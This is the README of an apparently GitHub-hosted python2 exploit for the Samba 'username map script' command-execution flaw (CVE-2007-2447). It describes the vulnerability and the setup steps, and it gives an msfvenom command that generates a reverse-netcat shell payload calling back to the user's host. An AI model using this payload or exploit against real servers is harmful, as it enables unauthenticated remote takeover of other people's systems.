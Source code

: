 # smb-usermap-destroyer
Smb Usermap Destoyer is a python2 exploit for 𝗖𝗩𝗘-𝟮𝟬𝟬𝟳-𝟮𝟰𝟰𝟳 ('𝗨𝘀𝗲𝗿𝗻𝗮𝗺𝗲' 𝗺𝗮𝗽 𝘀𝗰𝗿𝗶𝗽𝘁 𝗖𝗼𝗺𝗺𝗮𝗻𝗱 𝗘𝘅𝗲𝗰𝘂𝘁𝗶𝗼𝗻).
I created my own python script to automate the attack and avoid the exploitation with msfconsole.

𝗢𝗳𝗳𝗶𝗰𝗶𝗮𝗹 𝗱𝗲𝘀𝗰𝗿𝗶𝗽𝘁𝗶𝗼𝗻 𝗼𝗳 𝘃𝘂𝗹𝗻𝗲𝗿𝗮𝗯𝗶𝗹𝗶𝘁𝘆:

This module exploits a command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication! (source: https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script).


𝗕𝗲𝗳𝗼𝗿𝗲 𝘂𝘀𝗲 𝘁𝗵𝗲 𝗲𝘅𝗽𝗹𝗼𝗶𝘁 𝗶𝗻𝘀𝘁𝗮𝗹𝗹 𝘁𝗵𝗲 𝗳𝗼𝗹𝗹𝗼𝘄𝗶𝗻𝗴 𝗿𝗲𝗾𝘂𝗶𝗿𝗲𝗺𝗲𝗻𝘁𝘀:

➡ Install python2:
    apt install python

➡ Install pip:
    apt install python-pip (If you can't find python-pip package try donwload pip insytaller from: https://bootstrap.pypa.io/get-pip.py).

➡ Install with pip the pysmb implementation:
    pip install --user pysmb


𝗦𝗵𝗲𝗹𝗹𝗰𝗼𝗱𝗲 𝗴𝗲𝗻𝗲𝗿𝗮𝘁𝗶𝗼𝗻 𝗮𝗻𝗱 𝗰𝗼𝗻𝗳𝗶𝗴𝘂𝗿𝗮𝘁𝗶𝗼𝗻:

• Create your own Shellcode with your host and port:
    
   msfvenom -p cmd/unix/reverse_netcat LHOST=<Your IP Here> LPORT=<Your Port listener Here> -v shellcode -f python    
    
• Then replace the default.

